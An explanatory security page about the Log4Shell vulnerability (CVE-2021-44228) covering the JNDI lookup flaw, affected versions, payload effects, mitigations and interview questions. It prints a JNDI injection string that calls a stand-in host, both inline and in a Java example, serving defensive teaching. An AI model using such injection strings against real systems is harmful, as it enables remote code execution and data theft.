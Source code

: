 ```yaml
---
description: >-
  Log4J is a widely used Java-based logging utility that is part of the Apache
  Logging Services. It allows developers to log various levels of information,
  which can be essential for debugging.
---
```


# Log4J Vulnerability (CVE-2021-44228)

#### What Happened?

A critical vulnerability, known as CVE-2021-44228 or "Log4Shell," was discovered in Log4J. This vulnerability allows for remote code execution (RCE), meaning an attacker can execute arbitrary code on a server running a vulnerable version of Log4J. The vulnerability stems from Log4J’s handling of log messages. When logging certain strings, the library can execute arbitrary code fetched from remote servers.

#### How Did the Exploit Occur?

Despite Log4J being an open-source project with community oversight, the exploit was possible due to a feature within the library that allowed for dynamic lookups in log messages. This feature could be manipulated to execute remote code.

**Exploit Process**

1. **Discovery and Announcement**: Security researchers discovered that when a specially crafted string is logged, Log4J can make a JNDI (Java Naming and Directory Interface) lookup to a remote LDAP server, which can return a reference to a malicious Java object.
2. **Injection of Malicious Payload**: Attackers crafted log messages with malicious JNDI lookup strings (e.g., `${jndi:ldap://malicious.server/exploit}`), which were logged by applications using Log4J.
3. **Remote Code Execution**: The malicious Java object is deserialized and executed, allowing the attacker to run arbitrary code on the affected system.

#### Code Example

Here is an example of a vulnerable logging statement:

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class VulnerableApp {
    private static final Logger logger = LogManager.getLogger(VulnerableApp.class);

    public static void main(String[] args) {
        String userInput = "${jndi:ldap://malicious.server/exploit}";
        logger.error("User input: " + userInput);
    }
}
```

In this example, the log message includes user input that contains a JNDI lookup string. When logged, Log4J processes the JNDI lookup, potentially loading and executing malicious code from the specified server.

#### What Systems Does It Affect?

This vulnerability impacts any system using a vulnerable version of Log4J (versions 2.0 to 2.14.1). Due to Log4J's widespread use, the impact spans across various industries and includes applications running on cloud environments, enterprise software, and web services.

#### What Does the Payload Do?

The payload delivered through this exploit allows an attacker to:

* Execute arbitrary commands on the server.
* Download and install additional malicious software.
* Exfiltrate sensitive data.
* Potentially create a persistent backdoor for ongoing access.

#### Mitigation Steps

**1. Update Log4J:**

* Upgrade to the latest version of Log4J (2.15.0 or later), where the JNDI lookup functionality has been disabled by default.

`mvn dependency:tree | grep log4j mvn dependency:resolve -DincludeScope=runtime -Dincludes=org.apache.logging.log4j:log4j-core`

**Disable JNDI Lookups:**

* In the event you can't update immediately, you can mitigate the risk by setting the `log4j2.formatMsgNoLookups` system property to `true`.

`System.setProperty("log4j2.formatMsgNoLookups", "true");`

**Remove JndiLookup class:**

* Another temporary mitigation is to remove the `JndiLookup` class from the log4j-core jar file.

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

#### Interview Questions

**1. What are some proactive measures that organizations can take to reduce the risk of similar vulnerabilities in the future?**

**2. How can organizations effectively balance the need for rapid feature development with the imperative of thorough security testing and code review?**

**3. If you were responsible for responding to an incident like CVE-2021-44228, what immediate steps would you take to mitigate the threat?**
